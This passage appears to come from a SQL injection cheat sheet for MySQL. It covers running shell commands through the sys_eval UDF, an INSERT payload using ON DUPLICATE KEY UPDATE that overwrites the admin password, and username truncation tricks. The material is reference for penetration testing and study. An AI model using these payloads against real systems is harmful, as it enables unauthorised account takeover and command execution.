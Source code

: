 First you need to check if the UDF are installed on the server.

```powershell
$ whereis lib_mysqludf_sys.so
/usr/lib/lib_mysqludf_sys.so
```

Then you can use functions such as `sys_exec` and `sys_eval`.

```sql
$ mysql -u root -p mysql
Enter password: [...]
mysql> SELECT sys_eval('id');
+--------------------------------------------------+
| sys_eval('id') |
+--------------------------------------------------+
| uid=118(mysql) gid=128(mysql) groups=128(mysql) |
+--------------------------------------------------+
```


## MYSQL INSERT

`ON DUPLICATE KEY UPDATE` keywords is used to tell MySQL what to do when the application tries to insert a row that already exists in the table. We can use this to change the admin password by:

Inject using payload:

```sql
attacker_dummy@example.com", "P@ssw0rd"), ("admin@example.com", "P@ssw0rd") ON DUPLICATE KEY UPDATE password="P@ssw0rd" --
```

The query would look like this:

```sql
INSERT INTO users (email, password) VALUES ("attacker_dummy@example.com", "BCRYPT_HASH"), ("admin@example.com", "P@ssw0rd") ON DUPLICATE KEY UPDATE password="P@ssw0rd" -- ", "BCRYPT_HASH_OF_YOUR_PASSWORD_INPUT");
```

This query will insert a row for the user "attacker_dummy@example.com". It will also insert a row for the user "admin@example.com".

Because this row already exists, the `ON DUPLICATE KEY UPDATE` keyword tells MySQL to update the `password` column of the already existing row to "P@ssw0rd". After this, we can simply authenticate with "admin@example.com" and the password "P@ssw0rd".


## MYSQL Truncation

In MYSQL "`admin `" and "`admin`" are the same. If the username column in the database has a character-limit the rest of the characters are truncated. So if the database has a column-limit of 20 characters and we input a string with 21 characters the last 1 character will be removed.

```sql
`username` varchar(20) not null
```
